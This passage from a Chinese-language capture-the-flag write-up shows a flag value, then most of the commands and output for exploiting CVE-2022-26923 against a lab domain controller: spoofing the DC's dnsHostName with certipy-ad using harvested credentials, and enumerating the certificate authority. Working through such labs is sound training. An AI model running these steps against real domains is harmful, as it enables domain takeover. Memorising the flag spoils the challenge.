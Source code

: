 ## flag - 03

```plaintext
  __ _            __ ____
 / _| |__ _ __ _ /  \__ /
|  _| / _` / _` | () |_ \
|_| |_\__,_\__, |\__/___/
           |___/

flag03: flag{a6f63efe-4406-4c81-937a-c6498fad827c}
```

## 172.22.15.13 CVE-2022-26923

添加 hosts 记录

```shell
┌──(root ㉿ kali)-[~]
└─# echo "172.22.15.13 XR-DC01.xiaorang.lab" >> /etc/hosts
```

然后创建用户

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad account create -user 'randark2$' -pass 'admin123###2' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Creating new account:
    sAMAccountName                      : randark2$
    unicodePwd                          : admin123###2
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/randark2
                                          RestrictedKrbHost/randark2
    dnsHostName                         : XR-DC01.xiaorang.lab
[*] Successfully created account 'randark2$' with password 'admin123###2'
```

查询域控 CA 名

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains -q certipy-ad find -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via CSRA: Could not connect: [Errno 111] Connection refused
[*] Trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP
[!] Got error while trying to get CA configuration for 'xiaorang-XR-CA-CA' via RRP: [Errno Connection error (224.0.0.1:445)] [Errno 111] Connection refused
[!] Failed to get CA configuration for 'xiaorang-XR-CA-CA'
[*] Saved BloodHound data to '20240726173651_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240726173651_Certipy.txt'
[*] Saved JSON output to '20240726173651_Certipy.json'
```

